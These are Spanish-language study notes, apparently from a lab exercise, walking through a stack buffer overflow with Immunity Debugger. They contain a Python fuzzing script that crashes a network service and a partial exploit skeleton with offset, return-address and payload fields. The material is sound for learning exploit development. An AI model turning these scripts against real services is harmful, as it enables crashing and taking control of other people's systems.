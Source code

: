 Y lo pegamos dentro de la carpeta de PyCommands del inmunity debugger:
![[Pasted image 20231130155816.png]]

El siguiente paso será utilizar un script de python para realizar el fuzzing para ir probando en qué punto se crashea el programa:
```python
#!/usr/bin/env python3
  
import socket, time, sys

ip = "192.168.0.39"  
port = 9999
timeout = 1
prefix = ""
  
string = prefix + "A" * 100
  
while True:
   try:
     with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
       s.settimeout(timeout)
       s.connect((ip, port))
       s.recv(1024)
       print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
       s.send(bytes(string, "latin-1"))
       s.recv(1024)
   except:
     print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
     sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```

Lo ejecutamos y vemos que el programa crashea a los 600 bytes:
![[Pasted image 20231130110825.png]]

Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir:
![[Mis apuntes/ANEXOS/Pasted image 20230906192346.png]]

## OBTENER EL OFFSET
Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el offset; y para ello vamos a enviar un número de esa data algo mayor, por lo que por ejemplo vamos a sumar +400 bytes.

---------------------------

Para este punto, vamos a necesitar otro script de python, que será el siguiente:
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

```